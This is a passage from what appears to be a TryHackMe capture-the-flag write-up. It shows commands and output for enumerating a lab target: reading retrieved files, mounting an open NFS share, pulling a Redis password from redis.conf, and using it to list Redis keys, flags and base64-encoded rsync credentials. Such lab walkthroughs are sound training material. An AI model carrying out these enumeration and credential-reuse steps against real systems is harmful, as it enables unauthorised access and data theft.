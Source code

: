   ```
  getting file \data\business-req.txt of size 190 as business-req.txt (0.6 KiloBytes/sec) (average 0.3 KiloBytes/sec)
  ```

- Read newly found files.

  ```
  cat services.txt 
  THM{0a09d51e488f5fa105d8d866a497440a}
  
  cat data.txt           
  Purge regularly data that is not needed anymore
  
  cat business-req.txt   
  We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
  If you have any questions, please text or phone us.
  ```

- OK, first flag done and note tells us to look at the database. RPC enumeration now on port 111.

  ```
  showmount -e 10.10.255.144
  Export list for 10.10.255.144:
  /opt/conf *
  
  mkdir /tmp/mnt 
  sudo mount -t nfs 10.10.255.144:/opt/conf /tmp/mnt
  cd /tmp/mnt
  ls    
  hp  init  opt  profile.d  redis  vim  wildmidi
  ```

- So, I checked everything in NFS mount and found the password in `redis.conf` file.

  ```
  cat redis.conf

  [SNIP!]
  slave-serve-stale-data yes
  
  requirepass "B65Hx562F@ggAZ@F"
  [SNIP!]
  ```

- Cool, since we have Redis password let's enumerate it on port 6379.

  ```
  redis-cli -h 10.10.255.144 -a B65Hx562F@ggAZ@F
  Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
  10.10.255.144:6379> KEYS *
  1) "internal flag"
  2) "int"
  3) "authlist"
  4) "marketlist"
  5) "tmp"
  
  10.10.255.144:6379> GET "internal flag"
  "THM{ff8e518addbbddb74531a724236a8221}"
  
  10.10.255.144:6379> GET int
  "10 20 30 40 50"
  10.10.255.144:6379> GET tmp
  "temp dir..."
  
  10.10.255.144:6379> LRANGE authlist 1 16
  1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
  ```